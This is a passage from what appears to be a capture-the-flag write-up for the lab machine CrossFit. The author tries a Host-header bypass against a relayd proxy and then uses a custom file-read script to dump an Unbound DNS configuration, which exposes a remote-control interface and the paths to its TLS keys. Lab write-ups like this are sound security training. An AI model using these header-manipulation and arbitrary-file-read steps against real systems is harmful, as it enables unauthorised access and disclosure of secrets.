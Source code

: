 ```bash
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

email=david.palmer%40crossfit.htb
```

Changing the `Host` only results in an `Access denied` web page, so this attack doesn’t work.

At first I didn’t realize why this wasn’t working, but looking back in this writeup i found that in the relayd conf there is a line that checks the Host value as *crossfit-club.htb or *employees.crossfit.htb.

```bash
http protocol web{
	pass request quick header "Host" value "*crossfit-club.htb" forward to <3>
	pass request quick header "Host" value "*employees.crossfit.htb" forward to <2>
	match request path "/*" forward to <1>
	match request path "/ws*" forward to <4>
	http websockets
}
```

So, in the way that it’s written, maybe `<ip>/employees.crossfit.htb` works.

By performing the attack this way, we get a different message on the webpage: `Only local hosts are allowed`. This message and the fact that we have an Unbound DNS server, leads to think that this check is being covered by a DNS query.

In OpenBSD, the Unbound configuration location is at:

`/var/unbound/etc/unbound.conf`. We can use our script to read it.

```bash
❯ python3 file_reader.py /var/unbound/etc/unbound.conf
2025-07-08 18:51:04,827 - INFO - Attempting to read file: /var/unbound/etc/unbound.conf
2025-07-08 18:51:05,103 - INFO - Successfully read /var/unbound/etc/unbound.conf
server:
	interface: 127.0.0.1
	interface: ::1
	access-control: 0.0.0.0/0 refuse
	access-control: 127.0.0.0/8 allow
	access-control: ::0/0 refuse
	access-control: ::1 allow
	hide-identity: yes
	hide-version: yes
	msg-cache-size: 0
	rrset-cache-size: 0
	cache-max-ttl: 0
	cache-max-negative-ttl: 0	
	auto-trust-anchor-file: "/var/unbound/db/root.key"
	val-log-level: 2
	aggressive-nsec: yes
	include: "/var/unbound/etc/conf.d/local_zones.conf"

remote-control:
	control-enable: yes
	control-interface: 0.0.0.0
	control-use-cert: yes
	server-key-file: "/var/unbound/etc/tls/unbound_server.key"
	server-cert-file: "/var/unbound/etc/tls/unbound_server.pem"
	control-key-file: "/var/unbound/etc/tls/unbound_control.key"
	control-cert-file: "/var/unbound/etc/tls/unbound_control.pem"
```
